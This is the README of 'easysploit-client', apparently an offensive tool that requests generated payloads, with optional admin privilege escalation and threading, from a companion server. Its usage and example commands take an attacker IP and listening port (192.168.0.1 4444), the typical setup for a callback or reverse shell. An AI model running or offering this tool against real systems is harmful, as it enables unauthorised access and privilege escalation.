 # easysploit-client
## Overview
Easysploit Client is a simple tool for generating and customizing payloads by requesting their creation from the Easysploit Server. It provides a way to directly execute the generated payloads and supports additional customizations such as admin privilege escalation `-a` and threading `-t`.

## Features
- Admin Request (-a): Generate requesting code to server with admin privilege escalation.
- Threading (-t): Request  requesting code to server with threading support for faster execution.

## Installation
```
git clone https://github.com/Easysploit/easysploit-client.git
cd easysploit-client
```

## Usage
```
python3 easysploit_client.py <Attacker-IP> <Port> [-a] [-t]
```
- `<Attacker-IP>`: Attacker's local IP address.
- `<Port>`: Listening port on the attacker's machine.
- `-a`: Request admin privilege escalation (optional)
- `-t`: Request threading support for the payload (optional)

## Example
```
python3 easysploit_client.py 192.168.0.1 4444 -a -t
```

## License
This project is licensed under the MIT License.
